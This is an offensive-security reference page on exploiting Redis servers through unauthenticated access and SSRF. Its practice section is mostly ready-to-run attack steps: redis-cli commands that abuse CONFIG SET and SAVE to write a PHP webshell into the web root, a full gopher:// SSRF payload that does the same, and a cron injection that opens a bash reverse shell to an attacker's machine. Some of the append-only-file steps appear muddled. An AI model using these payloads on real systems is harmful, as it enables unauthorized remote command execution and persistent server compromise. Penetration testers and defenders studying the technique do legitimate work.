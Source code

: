 ```yaml
---
title: 'Redis Exploitation: Command Execution Techniques'
description: Explore Redis exploitation techniques for unauthorized command execution
  using SSRF and configuration flaws.
keywords:
- Redis exploitation
- SSRF
- command execution
- unauthenticated access
- CONFIG SET
- SAVE command
- webshell
- reverse shell
- gopher payload
---
```


# Redis Exploitation

## Context

Redis exploitation enables attackers to achieve command execution on Redis servers by leveraging Server-Side Request Forgery (SSRF) and exploiting unauthenticated misconfigurations. This technique assumes knowledge of server-side request forgery, command execution mechanisms, and Redis configurations.

## Theory

### Redis as an SSRF Target

Redis is an in-memory data store that operates over the TCP protocol, often configured to run on internal networks. Thus, it becomes an attractive target for SSRF exploits. Attackers can craft SSRF payloads that interface with Redis to issue commands or alter its state. If Redis lacks proper authentication, it allows an attacker to control data and issue commands directly to the server.

### Unauthenticated Command Execution in Redis

Default Redis installations may not require authentication, which could leave the server vulnerable to arbitrary command executions when exposed or accessible through misconfigured network settings. Redis inherently trusts clients on internal networks, operating under the assumption that no malicious activity will originate from these sources.

### Abusing CONFIG SET and SAVE for File Write

Redis provides the command `CONFIG SET` to adjust its configuration dynamically, while the command `SAVE` forces a snapshot of the in-memory data to be written to disk. Attackers can exploit these functionalities by setting the database directory (dir) and file name (`dbfilename`) to a location within the web root. They can then store malicious scripts, like a PHP webshell, as key-value pairs and use the `SAVE` command to drop the payload into the desired location, gaining unauthorized control.

### Payload Delivery via SSRF: dict:// and gopher://

SSRF payloads can exploit the `dict://` and `gopher://` protocols to inject raw Redis protocol commands. The `gopher://` protocol, in particular, handles binary-safe payloads, making it effective in bypassing input filters that would block or sanitize `dict://` payloads. This capability allows attackers to seamlessly deliver crafted commands to Redis.

## Practice

### Webshell Drop via CONFIG SET and SAVE

To execute commands on a vulnerable Redis server and drop a webshell, follow these steps:

- Set the Redis database directory to the web server root directory:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dir /var/www/html/
    ```

- Set the database file name to end in `.php` so it can be interpreted as a PHP script:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dbfilename shell.php
    ```

- Store the PHP webshell in Redis as a key:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SET webshell "<?php system($_GET['cmd']); ?>"
    ```

- Enable append-only file (AOF) mode to write the payload as plain text:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET appendonly yes
    ```

- Append the PHP webshell payload to the AOF file:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> APPEND webshell "<?php system($_GET['cmd']); ?>"
    ```
This sequence writes the PHP webshell to the specified location on the server, allowing remote command execution through the webshell.

### SSRF Payload Injection via gopher://

Inject the following gopher payload using SSRF to drop a PHP webshell:

```text
gopher://<redis_ip>:6379/_*3%0d%0a$3%0d%0aSET%0d%0a$9%0d%0awebshell%0d%0a$26%0d%0a<?php system($_GET['cmd']); ?>%0d%0a*3%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$3%0d%0adir%0d%0a$15%0d%0a/var/www/html/%0d%0a*3%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$9%0d%0ashell.php%0d%0a*1%0d%0a$4%0d%0aSAVE%0d%0a
```

This payload facilitates the creation of a webshell that enables attackers to perform unauthorized actions on the server.

### Reverse Shell via Redis Key Injection

Another method involves injecting a reverse shell command into the server's cron job using Redis commands. Follow these steps:

- Inject a cron job entry that opens a reverse shell back to an attacker's machine:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SET cron "* * * * * bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1"
    ```

- Set the Redis directory to point to the cron directory where entries can be automatically scheduled:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dir /var/spool/cron/
    ```

- Set the file name in the cron directory:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dbfilename root
    ```

- Trigger Redis to save the cron configuration:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SAVE
    ```

If executed with sufficient permissions, this method allows privilege escalation through persistent access to the system.

## Tools

- **redis-cli**
- **Burp Suite**
- **curl**
